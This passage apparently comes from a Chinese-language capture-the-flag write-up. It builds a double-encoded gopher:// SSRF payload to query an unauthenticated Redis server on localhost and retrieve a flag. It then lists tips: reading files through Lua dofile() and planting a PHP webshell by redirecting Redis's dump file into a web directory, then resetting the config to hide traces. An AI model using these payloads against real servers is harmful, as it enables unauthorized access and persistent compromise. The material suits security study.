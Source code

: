    

3. 上一题提示redis运行在25566

   根据协议构造`*1\r\n$4\r\nping\r\n`来测试是否成功连接
   将数据转换成gopher协议的格式

   `%2a1%0d%0a%244%0d%0aping%0d%0a`

   因为会解码两次还要再编码一次

   `%252a1%250d%250a%25244%250d%250aping%250d%250a`

   最终的样子:

   `gopher://127.0.0.1:25566/_%252a1%250d%250a%25244%250d%250aping%250d%250a`
   ![](http://ww1.sinaimg.cn/large/006pWR9agy1g6dic4lwopj309s02f3yc.jpg)

   成功

4. 
   
   接着 
   keys *:![1566834398847](C:\Users\蔡建斌\AppData\Roaming\Typora\typora-user-images\1566834398847.png)
   type flag:![](http://ww1.sinaimg.cn/large/006pWR9agy1g6dij5r4s2j30920110si.jpg)
   lrange flag 0 -1:
   ![](http://ww1.sinaimg.cn/large/006pWR9agy1g6dir3rr6wj301m0lmq2r.jpg)
   FLAG{Redis without authentication is easy to exploit}

### 小技巧

1. eval执行 lua脚本
   利用dofile()进行文件读取

2. 利用rbd写webshell

   - 修改备份文件的位置

     ```
     CONFIG SET dir /var/www/uploads
     CONFIG SET dbfilename sh.php
     ```

   - 把payload插入数据库

     ```
     SET payload “could be php or shell or whatever”
     ```

   - 把数据导出到硬盘

     ```
     BGSAVE
     ```

   - 清除痕迹

     ```
     DEL payload
     CONFIG SET dir /var/redis
     CONFIG SET dbfilename dump.rdb
     ```

